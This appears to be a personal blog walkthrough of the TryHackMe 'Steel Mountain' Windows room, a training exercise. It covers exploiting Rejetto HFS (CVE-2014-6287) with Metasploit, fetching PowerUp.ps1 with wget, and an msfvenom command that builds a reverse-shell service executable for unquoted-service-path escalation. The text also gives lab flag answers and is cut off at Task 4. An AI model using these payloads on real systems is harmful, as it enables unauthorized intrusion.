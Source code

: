 ```yaml
---
title: "Steel Mountain - TryHackMe Walkthrough by Nisha"
layout: single
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
toc_sticky: true
classes: wide
author_profile: true
excerpt: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
read_time: true
comments: no
share: true
related: true
description: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
tagline: "Steel Mountain - TryHackMe Walkthrough by Nisha"
header:
  teaser: /assets/images/thm/steelmountain/thm-steel-mountain-00.png
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/00-hero.jpg
categories: 
  - Blog
tags: 
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Web Exploits
  - Reverse Shell
  - Enumeration
  - Cybersecurity
  - Linux Privilege Escalation
toc: true
toc_sticky: true
---
```


## Overview

This walkthrough demonstrates how I exploited the **LazyAdmin** room on [TryHackMe](https://tryhackme.com/room/steelmountain"). Each section includes detailed explanations of the enumeration, exploitation, and privilege escalation processes. 


## Task 1 - Introduction

Deploy the machine.

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-1.png">

Q: Who is the employee of the month?

A: Bill Harper


<img src="/assets/images/thm/steelmountain/thm-steel-mountain-2.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-3.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-4.png">


## Task 2 - Initial Access

<strong>Q: Scan the machine with nmap. What is the other port running a web server on? </strong> <br>

<em> A: 8080 </em>

<strong>Q: Take a look at the other web server. What file server is running?</strong> <br>
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-6.png">

<em>A: Rejetto HTTP File Server</em>


<strong>Q: What is the CVE number to exploit this file server?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-5.png">

<em>A: 2014-6287</em>

<strong>Q: Use Metasploit to get an initial shell. What is the user flag?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-7.png">

<img src="/assets/images/thm/steelmountain/steelmountain/thm-steel-mountain-8.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-9.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-10.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-11.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-12.png">

<em>A: b04763b6fcf51fcd7c13abc7db4fd365</em>


## Task 3 - Privilege Escalation

We have an initial shell on this machine as user Bill.  Now, we will further enumerate the machine and escalate our privileges to root to obtain the final flag!

We can use the PowerUp PowerShell script to esclate our privileges.

Download the script using the following command:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-13.png">


We will use the upload command in Metasploit to upload the script. 

To execute this using Meterpreter, we will type load powershell into meterpreter. Then we will enter powershell by entering powershell_shell:

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">


Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-15.png">

- AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">

## Task 4 - Access and Escalation Without Metasploit 


